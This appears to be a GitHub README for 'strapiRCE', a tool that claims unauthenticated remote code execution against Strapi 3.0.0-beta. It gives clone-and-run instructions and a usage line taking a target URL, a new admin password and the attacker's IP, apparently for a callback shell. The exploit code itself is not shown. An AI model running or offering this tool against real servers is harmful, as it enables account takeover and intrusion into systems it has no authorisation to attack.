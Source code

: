 # strapiRCE
Strapi 3.0.0-beta - Remote Code Execution (RCE) (Unauthenticated)

## Tested on:
 - Kali linux 2021.4a
 - Parrot security 4.11.3
 
## Instalation:
```
git clone https://github.com/Invertebr4do/strapiRCE 

cd strapiRCE && chmod +x strapiRCE.py
```

## Usage:
```
./strapiRCE.py <EMAIL> <NEW_PASSWORD> <URL> <YOUR_IP>
```
